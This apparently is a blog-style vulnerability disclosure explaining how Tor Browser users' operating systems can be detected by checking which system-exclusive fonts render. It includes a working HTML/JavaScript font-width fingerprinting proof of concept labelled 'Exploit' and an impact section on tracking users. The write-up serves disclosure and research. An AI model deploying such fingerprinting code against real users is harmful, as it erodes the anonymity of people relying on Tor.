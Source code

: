 ```yaml
---
layout: content
title: 'Detecting Tor Browser platform based on exclusive fonts rendering'
description: ''
og_image: https://heitorgouvea.me/images/publications/tor-detect-platform/tor-browser-macos-figerprint.png
---
```


### Summary

Through the rendering of some specific Fonts, I discovered that it is possible to identify a user's operating system behind Tor and after reporting this to the Tor Project I was aware that they were already aware of the problem and there are already some implementations to minimize the impact of this vulnerability.

---

### Description

The Tor browser is based on Firefox, with its peculiarities and promises of digital privacy/anonymity, in addition to all its engineering to hide the IP from its user, Tor also promises to combat identifications that are linked to a person’s operating system, such for example: techniques that use JavaScript to capture the screen size and identify a unique feature of it.

However, it is possible to find out the operating system of a person using Tor via a technique that makes use of Fonts "exclusive" to some operating systems.

For example, the font “Lucida Grande” is one of them, which by default is only installed on MacOS, so when an HTML page tries to render it and is successful it can be concluded that that user is using “Tor on a MacOS”, already an example to identify users “Tor on Windows” would be the font “Comic Sans MS” among many other examples.

After reporting this problem, I was told that the Tor Project is already aware of all of this, and some implementations are already present in the current version of Tor to reduce the impact of this vulnerability and there are also plans for the future so that it ceases to exist for complete.

---

### Proof of Concept

Exploit:

```html
<html>
    <head>
        <title>PoC Fingerprint</title>
        <meta charset="utf-8"/>
        <style type="text/css">
            body {
                font-family: "Lucida Grande";
            }
        </style>
    </head>
    <body>
        <h1>Hello World</h1>
    </body>
    <script>
        (function (document) {
            var width;
            var body = document.body;

            var container = document.createElement('span');
            container.innerHTML = Array(100).join('wi');
            container.style.cssText = [
                'position:absolute',
                'width:auto',
                'font-size:128px',
                'left:-99999px'
            ].join(' !important;');

            var getWidth = function (fontFamily) {
                container.style.fontFamily = fontFamily;

                body.appendChild(container);
                width = container.clientWidth;
                body.removeChild(container);

                return width;
            };

            // Pre compute the widths of monospace, serif & sans-serif
            // to improve performance.
            var monoWidth  = getWidth('monospace');
            var serifWidth = getWidth('serif');
            var sansWidth  = getWidth('sans-serif');

            window.isFontAvailable = function (font) {
                return monoWidth !== getWidth(font + ',monospace') ||
                sansWidth !== getWidth(font + ',sans-serif') ||
                serifWidth !== getWidth(font + ',serif');
            };
        })(document);

        if (isFontAvailable('Lucida Grande')) {
            alert('You are using the MacOS plataform');
        }

        else {
            alert('You are not using the MacOs Platform');
        }
    </script>
</html>
```

User identification using Tor on MacOS:

![](/images/publications/tor-detect-platform/tor-browser-macos-figerprint.png)


User identification using Tor outside MacOS: 

![](/images/publications/tor-detect-platform/tor-browser-without-macos.jpeg)

There is a margin of error in this technique, as a user can install fonts that are not the default for an operating system, but an attacker can make use of even more esoteric fonts...

---

### Impact

Through this technique it is possible to identify the operating system of a user who is using Tor, on a website with low traffic volume, this distinction is enough to exclusively track users, already for a high traffic website, allows you to track users in a unique way in a short period of time.

---

### Conclusion

This vulnerability can be combined with others to develop a profile unique enough to track users on Tor. However, it is reassuring to know that the team behind Tor Browser is extremely agile and is very close to the research community, this certainly helps a lot.

---

### References

* [https://www.torproject.org/](https://www.torproject.org/)
* [https://en.wikipedia.org/wiki/Tor_(anonymity_network)](https://en.wikipedia.org/wiki/Tor_(anonymity_network))
* [https://2019.www.torproject.org/projects/torbrowser/design/](https://2019.www.torproject.org/projects/torbrowser/design/)
* [https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097](https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097)
* [https://www.samclarke.com/javascript-is-font-available/](https://www.samclarke.com/javascript-is-font-available/)
